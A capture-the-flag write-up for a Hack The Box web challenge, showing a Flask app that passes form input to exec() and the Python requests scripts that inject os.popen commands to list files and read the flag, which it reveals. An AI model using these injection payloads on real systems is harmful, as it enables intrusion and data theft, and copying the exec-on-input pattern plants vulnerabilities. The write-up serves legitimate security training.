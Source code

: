 # baby interdimensional internet
## Challenge description
aw man, aw geez, my grandpa rick is passed out from all the drinking again, where is a calculator when you need one, aw geez

## Looking around
When we visit the website in a browser, we see this.

![website](./site.PNG)

There is a number that seems to change everytime we refresh the page. First thing we are going to do is look at the source.

![website source](./source.PNG)

We can see there is a hint for a `/debug` page where we find the source for the challenge.

## Challenge source code

```python
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))

		calc(recipe)

		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])

		return func(*args, **kwargs)
	return federation

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)
```

## Methodology

Here we see a very simple `flask` webapp. We see we can perform a `GET` and `POST` request on `/` endpoint and `GET` on `/debug`. When we perform a `POST` on `/` we eventually hit this part of the code.

```python
if request.method == 'POST':
	ingredient = request.form.get('ingredient', '')
	recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

In this part of the code we can influence how to `recipe` string is going to look like. This string is later going to be used as a parameter for method `calc()`.

```python
calc(recipe)
```

This method provides an attack vector that we are going to exploit.

```python
def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass
```

This is a very simple exploit. Here we can see, method `exec()` directly executes python code that we provided in `recipe` variable. This is going to win us a challenge.

## Standard behaviour
When we visit the page we are implicitly using the `GET` request on `/`. Therefore we don't visit the if branch with the `POST` but we visit this part of the code.

```python
ingredient = ''.join(choice(lowercase) for _ in range(10))

recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))
```

Here `recipe` is assembled automatically using random values. Example.

```python
'zurkssxoqj = 38-65'
```

This gets sent to the `calc()` method. Here the `exec()` would look like this.

```python
try: exec('zurkssxoqj = 38-65', garage)
```

This gets executed internally and we can see there is a `garage` parameter which is a global variable therefore accessable in the whole script. `garage` is a dictionary that holds all the references to variables in the executed context. In our case, it would hold an item (beside other implicit values).

```python
{'zurkssxoqj' = -27}
```

Back to the `federation()` method.

```python
if garage.get(ingredient, ''):
	return render_template('index.html', calculations=garage[ingredient])
```

Here we extract the value from the `ingredient` variable and send it to the template to be rendered as the number we see on the screen. After the substitution the code would look like this.

```python
if garage.get('zurkssxoqj', ''):
	return render_template('index.html', calculations=garage['zurkssxoqj'])
```

## Exploit
We can send a `POST` request to craft our own recipe. When we do that we are accessing this part of the code.

```python
if request.method == 'POST':
	ingredient = request.form.get('ingredient', '')
	recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

From above we can see, that the webapp extracts values of variables `ingredient` and `measurements` from request body. We can try to send a POST request containing those variables in the body, and potentialy assemble our malicious `recipe`.

As an example we can start lightly to confirm we can control the `recipe`. An example `POST` body would look like this.

```json
{
    'ingredient': 'our_var',
    'measurements': '1337'
}
```

The `recipe` would look like this.

```python
'our_var = 1337'
```

We are going to use python `requests` module to send our request.

```python
#!/usr/bin/python3 

import requests 

data = {'ingredient': 'our_var', 'measurements': '1337'}
addr = 'http://<ip>:<port>'
r = requests.post(addr, data=data)

print(r.content)
```

In the response we see our number 1337, meaning we can successfully control the `exec()` statement.

```
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'> 1337 </h1>
```

As for the exploit, we can import the `os` module and have `RCE` on the server.

```python
#!/usr/bin/python3 

import requests 

data = {'ingredient': 'our_var', 'measurements': '__import__("os").popen("ls").read()'}
addr = 'http://<ip>:<port>'
r = requests.post(addr, data=data)

print(r.content)
```

The `exec` would look like this.

```python
try: exec('our_var = __import__("os").popen("ls").read()', garage)
```

We are going to list the items in webapp `cwd`.

```
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'> app.py\nflag\ntemplates\n </h1>
```

We see there is a file named flag which contains the challenge secret.

## Final exploit code

```python
#!/usr/bin/python3 

import requests 

data = {'ingredient': 'our_var', 'measurements': '__import__("os").popen("cat flag").read()'}
addr = 'http://<ip>:<port>'
r = requests.post(addr, data=data)

print(r.content)
```

```
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'> HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3} </h1>
```

## Flag
**HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3}**